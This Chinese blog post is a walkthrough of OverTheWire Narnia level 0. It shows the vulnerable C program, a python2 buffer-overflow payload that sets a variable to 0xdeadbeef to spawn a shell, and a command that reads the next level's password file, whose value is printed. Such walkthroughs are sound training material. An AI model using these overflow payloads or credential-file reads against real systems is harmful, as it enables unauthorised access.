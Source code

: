 ```yaml
---
layout:     post
title:      "Narnia"
date:       2019-10-02 00:00:00 +0800
categories: 安全
tags:       game
summary:    "本文为 Narnia 题解。"
series:     OverTheWire
series_index: 3
mathjax:    true
archived:   true
---
```


[https://overthewire.org/wargames/narnia/](https://overthewire.org/wargames/narnia/)

每关使用 ssh 连接

```shell
ssh -p 2226 narnia0@narnia.labs.overthewire.org
```

## Level 0–>Level 1

```c
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```

可以看到，有一个大小为 20 的 buf，我们需要通过输入溢出 buf 来覆盖 val 的值。

我们首先做一个简单的尝试：

```shell
$ ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: AAAAAAAAAAAAAAAAAAAABCDE
buf: AAAAAAAAAAAAAAAAAAAABCDE
val: 0x45444342
WAY OFF!!!!
```

值得注意的是，val 的值为 `0x45444342`，即 EDCB。

```shell
/narnia$ python2 -c 'print "A"*20 + "\xef\xbe\xad\xde\x80"'
AAAAAAAAAAAAAAAAAAAAﾭހ
/narnia$ ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: AAAAAAAAAAAAAAAAAAAAﾭހ
buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
$ cat /etc/narnia_pass/narnia1
eaa6AjYMBB
```
